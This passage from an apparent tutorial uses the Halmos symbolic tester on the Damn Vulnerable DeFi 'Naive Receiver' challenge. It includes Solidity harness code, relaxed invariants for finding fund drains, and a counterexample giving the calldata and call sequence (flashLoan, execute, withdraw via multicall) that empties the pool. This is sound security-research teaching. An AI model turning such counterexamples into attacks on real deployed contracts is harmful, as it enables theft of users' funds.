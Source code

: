 ```solidity
    // If selector is "withdraw"
    if (selector == bytes4(keccak256("withdraw(uint256,address)")))
    {
        newdata = svm.createBytes(100, "multicall_newdata");
        vm.assume (bytes4(newdata) == selector);
    }
    results[0] = Address.functionDelegateCall(target, newdata);
    return results;
}
```
### A simplified invariant
So far, we have used invariants that directly gave us the solution to the problem. But if we cannot find a direct solution, we will apply other principles. First, let's remove the condition that the assets must be on recovery. Let's rationalize it by the fact that if we can find an attack at all that will steal funds from target addresses, the way to transfer them to recovery should be obvious. As a result, we will probably save on the number of necessary symbolic transactions:
```solidity
function _isSolved() private view {
    ...
    assert (weth.balanceOf(address(receiver)) != 0 || 
            weth.balanceOf(address(pool)) != 0); 
```
But let's go even further. Let's try to find out if we can reduce the target contract balances at all. Maybe that will give us an idea for an attack:
```solidity
function _isSolved() private view {
    assert (weth.balanceOf(address(pool)) >= WETH_IN_POOL || 
            weth.balanceOf(address(receiver)) >= WETH_IN_RECEIVER);
}
```
Run:
```javascript
$ halmos --solver-timeout-assertion 0 --function check_naiveReceiver
...
Counterexample:
halmos_multicall_newdata_bytes_e2c4a17_67 = 0x00f714ce0000000000000000000000000000000000000000000000070800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000cafe0000
halmos_selector_bytes4_2b51260_47 = execute
halmos_selector_bytes4_acafed2_66 = withdraw
halmos_selector_bytes4_e0bb9db_14 = execute
halmos_selector_bytes4_f3c1dfe_33 = flashLoan
halmos_target_address_2eb5185_01 = 0x00000000000000000000000000000000aaaa0004
halmos_target_address_a486edd_34 = 0x00000000000000000000000000000000aaaa0004
p_amount_uint256_53924bb_28 = 0x0000000000000000000000000000000000000000000000077400000000000000
p_data_length_1638d62_30 = 0x0000000000000000000000000000000000000000000000000000000000000400
p_receiver_address_3b7cd58_26 = 0x00000000000000000000000000000000000000000000000000000000aaaa0006
p_request.from_address_d094f2c_04 = 0x00000000000000000000000000000000000000000000000000000000cafe0001
p_request.from_address_fa75348_37 = 0x00000000000000000000000000000000000000000000000000000000cafe0001
p_request.target_address_9cc3344_05 = 0x00000000000000000000000000000000000000000000000000000000aaaa0005
p_request.target_address_c287625_38 = 0x00000000000000000000000000000000000000000000000000000000aaaa0005
p_signature_length_7e37d64_13 = 0x0000000000000000000000000000000000000000000000000000000000000041
p_signature_length_fb058e7_46 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_token_address_a8696b9_27 = 0x00000000000000000000000000000000000000000000000000000000aaaa0003
...
[FAIL] check_naiveReceiver() (paths: 20371, time: 1592.14s, bounds: [])
```
Counterexample is found!
### Another way
